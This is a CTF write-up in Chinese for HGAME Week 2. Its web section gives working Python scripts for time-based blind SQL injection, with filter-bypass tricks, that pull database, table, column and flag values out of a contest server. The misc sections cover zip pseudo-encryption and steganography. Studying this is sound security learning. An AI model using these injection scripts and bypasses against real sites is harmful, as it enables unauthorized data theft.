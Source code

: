 # HGAME Week2 WriteUp

## Web
### Cosmos的留言板-1
这题打开一看，一个留言板，没有可以操作的地方  
![](img/week2-web-2.png)  
唯一可疑的地方只有这个id，试着改了一下id，但从4开始就没有信息了，于是尝试把id改成字符。
![](img/week2-web-3.png)  
发现不管id是什么它都会显示在留言板上，于是这有了可操作性，可以当作一个注入点，然而历经漫长的时间，翻遍了网上sql的资料也没多少进展，只发现空格、加号和井号被过滤掉了。最后确定这应该是一道基于时间的盲注，因为哪怕成功注入，也没用任何反应<s>（一直以为是没注入成功。。。）</s>确认这点之后，我就开始尝试利用sleep函数来进行各种操作。经过尝试发现可以用()和/**/来充当空格，还发现虽然#被过滤了，但URl编码后的%23没问题，于是试了下``id=1'and/**/sleep(1)/**/%23``。
![](img/week2-web-4.png)  
终于成功注入了一次，那么之后就开始尝试找flag了，首先是数据库名,我先利用sleep，得知数据库名的长度是7。
```python
http://139.199.182.61/index.php?id=1%27and(sleep(length(database())))%23
```
然后我尝试了手动爆破，令id=``1%27and(sleep(ascii(mid(database()from(1)for(1)))-97))%23``,通过将目标字符和指定字符的ascii码的差值反应在时间间隔上，来算出对应字符，但花了半天才爆破出数据库名easysql，想到后面的表名、列名和字段，顿时生无可恋。迫不得已，重新拿起了python。
```python
#爆库名
import requests
import time

flag = ''
maxlength = 50
host = 'http://139.199.182.61/index.php?'

for i in range(1, 8):
    for x in range(32,127):
        payload = "id=1\'and(if(ascii(substring((database()),{0},1))={1},sleep(3),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 2:
            flag += chr(x)
            print(flag)
            break
```
然后爆表名，但发现出了问题，没有回显，说明sql语句有错误，然后简单的测试了一下，最后确定是select被过滤了，尝试把s大写，看看能不能绕过。OK，有回显了，说明大写可以绕过。然后就还是老方法，通过时间间隔，得出有两个表，表名长度分别是16和8。
``id=1%27and(sleep(length((Select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=%27easysql%27limit/**/0,1))))%23``  
继续用python爆破表名,我真的怀疑这道题真的这么复杂吗。。。反正我的方法是真的麻烦。。。
```python
#爆表名
import requests
import time

flag = ''
maxlength = 10
host = 'http://139.199.182.61/index.php?'

for i in range(1, maxlength):
    for x in range(97,127):
        payload = "id=1\'and(if(ascii(substring((Select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema='easysql'limit/**/0,1),{0},1))={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break

```
由于某些未定义事件的发生，重新爆了几遍，最后确定两个表名``f1aggggggggggggg``和``messages``。  
之后是列名，先看看长度和个数``id=1%27and(sleep(length((Select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name=%27f1aggggggggggggg%27limit/**/0,1))))%23``发现flag那个表只有一列，列名长度为10，另一个表有两列，长度分别是2和7，第二个表显然是放留言板里的信息的了，就不管了，那么就爆flag表的列名。  
```python
#爆列名
import requests
import time

flag = ''
maxlength = 12
host = 'http://139.199.182.61/index.php?'

for i in range(1, maxlength):
    for x in range(32,127):
        payload = "id=1\'and(if(ascii(substring((Select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name='f1aggggggggggggg'limit/**/0,1),{0},1))={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break

```
sleep的时间长一点，准确度会稍微高一点，也就一点。。。得到列名``fl4444444g``。
最后爆字段，先看看长度``id=1%27and(sleep(length((Select/**/fl4444444g/**/from/**/f1aggggggggggggg/**/limit/**/0,1))))%23``，发现只有一个字段，长度为44。。。不想说话了，爆吧。。。
```python
#爆字段。。。
import requests
import time

flag = ''
maxlength = 45
host = 'http://139.199.182.61/index.php?'

for i in range(1, maxlength):
    for x in range(32,127):
        payload = "id=1\'and(if(ascii(substr((Select/**/fl4444444g/**/from/**/f1aggggggggggggg/**/limit/**/0,1),{0},1)) ={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break


```
爆了不知道多少遍终于确定了flag是``hgame{w0w_sql_InjeCti0n_Is_S0_IntereSting!!}``下面是最后一次的结果，还是有几个字符是错的。。。  
![](img/week2-web-1.png)
<br></br><br></br><br></br><br></br>
## Misc
### 所见即所假
下载下来一个压缩包，发现有密码，看了下压缩包的备注之类的信息，只发现了这句话。  
![](img/week2-misc-2.png)  
先不管F5是什么，试了一下Key，发现不对，看来这是解压以后才可能用到的，那么先不管。再看了眼题目和对联。。。只表达了一个意思，那就是你看到的可能是假的，再加上一上来就是个加密的zip，多半就是伪加密了，用Winhex看看,发现压缩文件数据区的全局方式位标记这边是0，可见果然是伪加密。  
![](img/week2-misc-3.png)  
然后找一下压缩文件的目录区，把全局方式位标记这里的9改成0即可破解加密<s>（目录区居然在最后面，一开始没用搜索，找个半死。。。）</s>  
![](img/week2-misc-4.png)  
解压发现只有一张图片，看了下，也没有压缩包之类的藏在图片里，备注之类的地方也没有东西，那么之前压缩包里的注释就是提示，F5应该是指F5隐写，于是先把``F5-steganography``给clone下来，然后运行一下。
```
cd C:\Users\lizhihao\Documents\GitHub\F5-steganography
java Extract FLAG_IN_PICTURE.jpg -p NllD7CQon6dBsFLr
```
这边不知道为什么必须把图片放在同一个文件夹里才能运行，用绝对路径的话不行。。。  
然后得到一个output.txt，打开一看全是数字和字母，字母最大就是E，看来是个十六进制，转成字符串就得到了flag。
![](img/week2-misc-1.png)  
### 地球上最后的夜晚
下下来一个压缩包，没有密码，解压后里面有一个pdf和一个加密的7z压缩包，先看了下注释之类的地方，没用有用的东西，pdf打开发现是篇深度学习相关的论文？虽然名字是No password，但密码肯定和这个pdf相关，之后我在找F5隐写相关的资料的时候，发现了一个叫wbStego4.3open的软件，可以把文件隐藏到BMP，TXT，HTM和PDF文件中。那么就试试这个软件，然后生成了一个txt文件，里面有解压的密码。  
![](img/week2-misc-5.png)  
把文件解压之后，里面只有一个word文档，打开来一看里面还真是地球上最后的夜晚，看了下没用特殊的地方，打开隐藏文字，也没有看到flag出现。找了下资料，发现word可以转换成xml，也可从xml转换回来。所以在重新打包成word的时候有可能被隐藏进其他数据。于是把这个word文档解压试试。  
翻了半天，找到了一个secret.xml，打开一看，成功找到了flag。  
![](img/week2-misc-6.png)  